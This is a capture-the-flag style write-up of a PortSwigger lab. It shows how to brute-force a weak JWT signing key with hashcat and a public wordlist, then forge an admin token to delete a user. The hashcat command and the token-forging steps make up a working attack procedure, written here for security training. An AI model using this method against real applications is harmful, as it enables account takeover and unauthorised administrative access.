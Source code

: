 # [Lab: JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)

## Lab

This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a  [wordlist of common secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list).

To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

download hashcat for windows:

```url
https://hashcat.net/files/hashcat-5.1.0.7z
```

download the wordlist then move to hashcat folder:

```bash
wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 
```

bruteforce:

```bash
kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list
```

![bruteforce](../../img/lab-3-bruteforce.png)

base64 encode secret:
![b64-encode](../../img/lab-3-base64-encode.png)

add new symmetric key:
![add new symmetric key](../../img/lab-3-new-symmetric-key.png)

sign and send request:
![attack](../../img/lab-3-attack.png)

access to the admin panel at  `/admin`, then delete the user  `carlos`. => ok
